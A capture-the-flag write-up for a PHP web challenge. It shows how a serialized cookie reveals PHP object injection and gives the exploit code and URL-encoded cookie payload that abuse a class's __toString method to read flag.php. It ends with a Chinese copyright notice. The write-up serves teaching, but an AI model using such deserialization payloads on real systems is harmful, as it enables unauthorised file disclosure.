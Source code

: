 
#### Goals
 * Try to find the flag

#### Server Address
 * http://web.sniperoj.com:10002/

#### Writeups
1. access the url, we can find that there is a input form, try to input something.
2. notice cookie has been changed, a key 'list' is added.
```
a%3A1%3A%7Bi%3A0%3Bs%3A16%3A%22Hacked+by+smi1e%21%22%3B%7D
decode as url
a:1:{i:0;s:16:"Hacked by smi1e!";}
```
3. PHP object injection!
4. then we check the html source code generated by index.php
found something interesting at the bottom
```
#try to read flag.php	
Class whatthefuck{
	public function __toString()
	{
		return highlight_file($this->source,true);
	}
}
```
5. all we need to do is try to call the `_toString` function of `class whatthefuck` to read the `flag.php`
6. here are the final exploit.
```php
➜  guess-the-code ls
exploit.php  flag.php
➜  guess-the-code cat exploit.php 
<?php

#try to read flag.php	
Class whatthefuck{
	public function __toString()
	{
		return highlight_file($this->source,true);
	}
}

$x = new whatthefuck();
$x->source='flag.php';
$y = serialize(array($x));
$z = unserialize($y);
echo $z;
```
```
a%3A1%3A%7Bi%3A0%3BO%3A11%3A%22whatthefuck%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D
```


## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（wangyihanger@gmail.com）
